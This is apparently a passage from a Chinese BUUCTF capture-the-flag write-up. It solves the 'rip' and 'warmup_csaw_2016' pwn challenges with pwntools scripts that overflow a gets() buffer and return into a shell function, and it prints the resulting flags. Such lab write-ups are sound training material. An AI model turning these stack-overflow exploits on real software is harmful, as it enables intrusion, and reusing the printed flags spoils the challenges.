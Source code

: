 编写`Python`脚本连接`node4.buuoj.cn`的监听端口`28531`，并发送`payload`：

```python
from pwn import *
# remote()建立远程连接,指明ip和port
io = remote('node4.buuoj.cn', 28531)
payload = b'a'*(0xf + 0x8) + p64(0x40118A)
io.sendline(payload) #发送数据
io.interactive() #与shell进行交互
```

与`shell`交互时输入以下命令行即可得到`flag{c706d420-68bf-4b75-9468-97997d4817b6}`。

```bash
ls #这步可以看到当前目录下有个flag文件
cat flag #直接输出flag即可
```

![](https://paper.tanyaodan.com/BUUCTF/rip/5.png)

------

### [warmup_csaw_2016](https://buuoj.cn/challenges#warmup_csaw_2016)

先`file ./warmup_csaw_2016`查看文件类型再`checksec --file=warmup_csaw_2016`检查一下文件保护情况。

![](https://paper.tanyaodan.com/BUUCTF/warmup_csaw_2016/1.png)

用`IDA Pro 64bit`打开`warmup_csaw_2016`后按`F5`反汇编源码并查看主函数，发现`gets()`函数读取输入到变量`v5`中，`v5`的长度只有`0x40`，即可用栈大小只有`64`字节，但是`gets()`函数并没有限制输入，显然存在栈溢出漏洞。

![](https://paper.tanyaodan.com/BUUCTF/warmup_csaw_2016/2.png)

在`Functions window`可以看到有一个`sub_40060D()`函数，按`F5`反汇编可以看到这是一个系统调用，且`sub_40060D()`函数的起始地址为`0x40060D`。

![](https://paper.tanyaodan.com/BUUCTF/warmup_csaw_2016/3.png)

编写`Python`脚本连接`node4.buuoj.cn`的监听端口`25282`，发送`payload`即可得到`flag{31eb59d1-1c21-4440-96a5-b12276f75a41}`。

```python
from pwn import *

io = remote('node4.buuoj.cn', 25282)
payload = b'a'*(0x40 + 0x8) + p64(0x40060D)
io.sendline(payload)
io.interactive()
```

![](https://paper.tanyaodan.com/BUUCTF/warmup_csaw_2016/4.png)

------

### [ciscn_2019_n_1](https://buuoj.cn/challenges#ciscn_2019_n_1)
